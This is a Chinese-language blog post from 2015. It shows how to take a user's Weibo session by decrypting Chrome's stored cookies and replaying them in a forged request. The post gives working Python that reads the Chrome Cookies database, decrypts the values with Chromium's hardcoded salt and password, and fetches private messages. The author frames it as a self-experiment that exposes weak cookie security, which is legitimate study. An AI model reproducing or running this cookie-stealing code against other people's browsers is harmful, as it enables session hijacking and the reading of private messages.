 title: 利用cookie劫持微博私信 
tags: 
- http
- cookie
- python
- aes
- chrome
category: coding
date: 2015-02-27 23:15
---

记得还是在学Qt编程的时候，做过一个练手项目，产品是一个搜索Chrome的cookie内容的小软件。Chrome的cookie保存在用户目录的一个sqlite文件中，具体路径上网搜一下就知道了。当时比较天真，想看看cookie里面有没有明文保存的密码，结果当然是得到一堆乱码，最后就不了了之了。
<!-- more --> 
直到前几天，我正在网上看一篇关于cookie的文章，忽然想起一件事情，我需要密码的原因无非是用来登录，我既然有了cookie直接发给服务器就可以了，又有什么必要了解cookie的内容？我顺手用chrome打开了微博私信查看下它的请求流程：
![cookie-request-flow](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824063.png)


貌似理论上没有什么问题，不过还是要做个试验验证一下，我准备尝试用python写个小程序模拟浏览器向微博服务器发起私信消息的页面请求。

当然首先还是让我的小伙伴给我发条私信：
![cookie-message](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824132.png)
##具体实现
整个实验我简单的作了个概念图：
![cookie-flow](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824183.png)

实验主要分为以下几个步骤：
 * 从chrome的sqlite文件中提取cookie
 * 模拟浏览器组装header
 * 向服务器发起目标页面的请求

###提取chrome的cookie信息
chrome的cookie保存路径在三大操作系统Windows、Linux和OSX上都不尽相同，以linux为例，它的保存路径就是`～/.config/chromium/Default/Cookies`，我们先用sqlite3程序把这个文件载入进来看看：
![cookie-tables](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/14251182423.png)
cookie信息都保存在表`cookies`中，但是才刚开始就出现了意想不到的问题：
![cookie-values-problem](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824283.png)

表里面的值和记忆中的大部分都是一样的，唯独最重要的value一项，居然是空的，而在末尾倒是多了个`encrypted_value`項。谷歌了一下，了解到在chrome版本33之前，cookie都是直接存储的，在33+之后，谷歌开始对cookie的信息进行了加密。顺便感慨下时光飞逝，不知不觉又老了几个版本。chrome在windows上加密采用的是CryptUnprotectData函数，解密方法大家可以看[这里](http://www.ftium4.com/chrome-cookies-encrypted-value-python.html)。Linux和OSX上的加密方法相似，都采用的是AES(CBC)加密方法，了解密码学的都知道对这个数据进行解密至少需要好几个值，salt，key length，iv，password，iterations等等。不过不幸的是一位国外的网友n8henrie在浏览了chromium源码之后把这些值统统找到了，以下是他原话：
 
* salt is `b'saltysalt'`
* key length is `16`
* `iv` is 16 bytes of space `b' ' * 16`
* on `Mac OSX`:
    `password` is in keychain under `Chrome Safe Storage`
    I use the excellent keyring package to get the password
    You could also use bash: `security find-generic-password -w -s "Chrome Safe Storage"`
    number of iterations is `1003`
* on Linux:
    password is `peanuts`
    number of iterations is `1`

顺便贴出他给出的源代码(可能是原作者的失误，在clean函数中忘记调用了ord函数，特此补上)：

```
#! /usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

# Function to get rid of padding
def clean(x): 
    return x[:-ord(x[-1])].decode('utf8')

# replace with your encrypted_value from sqlite3
encrypted_value = ENCRYPTED_VALUE 

# Trim off the 'v10' that Chrome/ium prepends
encrypted_value = encrypted_value[3:]

# Default values used by both Chrome and Chromium in OSX and Linux
salt = b'saltysalt'
iv = b' ' * 16
length = 16

# On Mac, replace MY_PASS with your password from Keychain
# On Linux, replace MY_PASS with 'peanuts'
my_pass = MY_PASS
my_pass = my_pass.encode('utf8')

# 1003 on Mac, 1 on Linux
iterations = 1003

key = PBKDF2(my_pass, salt, length, iterations)
cipher = AES.new(key, AES.MODE_CBC, IV=iv)

decrypted = cipher.decrypt(encrypted_value)
print(clean(decrypted))
```
我稍微改了下源代码，对上图header里的cookie的第一項尝试进行解密：
```
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

def clean(x): 
    return x[:-ord(x[-1])].decode('utf8')

def decrypt(encrypted_value):
    encrypted_value = encrypted_value[3:]

    salt = b'saltysalt'
    iv = b' ' * 16
    length = 16

    my_pass = 'peanuts'
    my_pass = my_pass.encode('utf8')

    iterations = 1

    key = PBKDF2(my_pass, salt, length, iterations)
    cipher = AES.new(key, AES.MODE_CBC, IV=iv)
    decrypted = cipher.decrypt(encrypted_value)
    
    return clean(decrypted)

cx = sqlite3.connect(os.path.expandvars('$HOME') + '/.config/chromium/Default/Cookies')
cu = cx.cursor()

cu.execute("select * from cookies where host_key = '.weibo.com' and name = 'SINAGLOBAL'")
    
res = cu.fetchone()
    
print decrypt(res[len(res)-1])
```

结果显示n8henrie给出的值确实是正确的，解密成功。
![cookie-value-chrome](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824335.png)
![cookie-chomre](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824386.png)

这个值我们不知道有什么意义，因为本来就不需要，直接把它发给服务器就好，服务器自己知道怎么解密的。

cookie值解密出来之后，感觉就像是突然变成了宿管阿姨，手里握着整栋宿舍的钥匙。
###组装header
组装header这里比较容易了，基本上照着上面截下来的Chrome的header照抄就好了，不过要注意的是记得把`Accept-Encoding:gzip，deflate，sdch`这一项去掉，不然返回的数据是经过压缩的，最后再加上解密出来的cookie，一个完整的header就出来了。

```
import sqlite3
import urllib2
import os

cx = sqlite3.connect(os.path.expandvars('$HOME') + '/.config/chromium/Default/Cookies')
cu = cx.cursor()
cu.execute("select * from cookies where host_key = '.weibo.com'")

cookies = ''

for res in cu.fetchall(): 
    cookies += res[2] + '=' + decrypt(res[len(res)-1]) + '; '

url = 'http://weibo.com/messages'

header = {
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        #'Accept-Encoding': 'gzip, deflate, sdch',
        'Accept-Language': 'zh-CN,zh;q=0.8,en;q=0.6,ja;q=0.4,zh-TW;q=0.2',
        'Cache-Control': 'max-age=0',
        'Connection': 'keep-alive',
        'Host': 'weibo.com',
        'Cookie': cookies,
        'User-Agent': 'Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/40.0.2214.111 Chrome/40.0.2214.111 Safari/537.36'
}
request = urllib2.Request(url, headers=header)
```
###发送请求
最后一步发送请求，把返回的数据打开看一下，私信消息已经在里面了。
![cookie-msg-decode](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824443.png)

##结语
没想到整个过程还算是比较顺利的，而且还是在linux平台。随后我又在windows和OSX上进行了试验，windows的解密要更简单一点，而在OSX上获取`Chrome Safe Storage`的`password`的时候系统提醒需要获取授权，也就是说从目前来看只有苹果系挡住了这次攻击。不得不说cookie确实给我们带来了太多的便利，但是与此同时也牺牲了太多的安全性，网络发展到今天很多事情已经超出可控的范围，尤其是在中国这种软件氛围，谁知道各大软件产商有什么做不出来的，想要保护好自己，只能靠自己平时多长点心眼了。

##Q&A
* Q：为什么我直接用你的代码返回404？
* A：你要先用chrome至少浏览一次私信，不然哪来的cookie。
<br />
* Q：为什么选择微博私信做实验？
* A：因为我知道你们用的是微信而不是私信。
<br />
* Q：你是在本机运行的，劫持自己的信息可以，怎么劫持别人的信息？
* A：一般人不行，但是软件产商可以。
<br />
* Q：为什么每个用户只有一条私信？不可以看到所有的对话嘛？
* A：可以，但这里只是做为实验，不可有小人之心，但不能不防小人
<br />
* Q：有了cookie除了看私信还能干什么？
* A：不知道。

最后感谢下caixpp童鞋发了封私信，还有，用完数据库记得close。
##References
* http://stackoverflow.com/questions/23153159/decrypting-chrome-iums-cookies/23727331#23727331
* http://n8henrie.com/2014/05/decrypt-chrome-cookies-with-python/
* http://www.ftium4.com/chrome-cookies-encrypted-value-python.html

##转载请注明
原文地址： [http://mafagan.sinaapp.com/2015/02/26/cookie-hack/](http://mafagan.sinaapp.com/2015/02/26/cookie-hack/)
